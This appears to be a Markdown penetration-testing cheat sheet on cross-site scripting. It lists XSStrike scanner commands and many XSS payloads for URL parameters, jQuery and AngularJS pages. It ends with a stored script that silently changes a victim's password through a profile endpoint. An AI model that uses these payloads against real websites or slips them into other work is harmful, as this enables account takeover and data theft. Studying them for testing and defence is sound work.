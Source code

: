 ```yaml
---
title: Cross-Site Scripting (XSS)
desc: 
tags: [Burp, Cross, Site, Web, XSS]
alts: [Cookie-Hijacking]
render_with_liquid: true
---
```


{% raw %}

## Automation

- **[XSStrike](https://github.com/s0md3v/XSStrike){:target="_blank"}{:rel="noopener"}**

    XSS scanner.

    ```sh
    # GET request
    python xsstrike.py -u http://vulnerable.com/?param=test

    # POST reqeust
    python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

    # data as JSON
    python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
    ```

<br />


## Manual

1. **URL Parameters**

    1. **Common Payloads**

        ```
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q='></script><script>alert(1)</script>

        /?q=" src=1 onerror=alert(1)>
        /?q=<><img src=1 onerror=alert(1)>
        /?q="><img src=1 onerror=alert(1)>
        /?q="></span><img src=1 onerror=alert(1)>
        /?q="><svg onload=alert(1)>

        /?q=javascript:alert(1)
        /?q=\"-alert(1)//

        /?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

        /?q=<a onmouseover=alert(1)>click</a>
        /?q=" onmouseleave='alert(1)'">

        /?q=<img src="jav ascript:alert(1)">
        /?q=<img src="jav&#x09;ascript:alert(1)">
        /?q=<img src="jav&#x0A;ascript:alert(1)">


        /?q=&subparam=--><script>alert(1)</script>
        /index.php#value='><script>alert(1)</script>
        ```

    2. **JQuery**

        ```
        https://vulnerable.com/#<img src=1 onerror=alert(1)>
        <iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
        ```

    3. **AngularJS**

        If you find **"<html ng-app>"** or **"<div ng-app>"** in the HTML source code, you may be able to abuse it by XSS.

        ```
        https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
        ```

2. **POST Parameters**


    POST params are almost the same as URL params, so try the common payloads of section 1.  
    Ant the following ones.

    ```
    title=<a href="http://localhost/newUser?username=test&password=test">test</a>&comment=hello
    ```

    1. **Change User Profiles**

        If the website allows users to change passwords from the URL params...

        ```
        /profile?new_password=password
        ```

        Submit the payload to user input forms such as messages, comments, forums...

        ```
        <script>fetch('/profile?new_password=password');</script>
        ```

{% endraw %}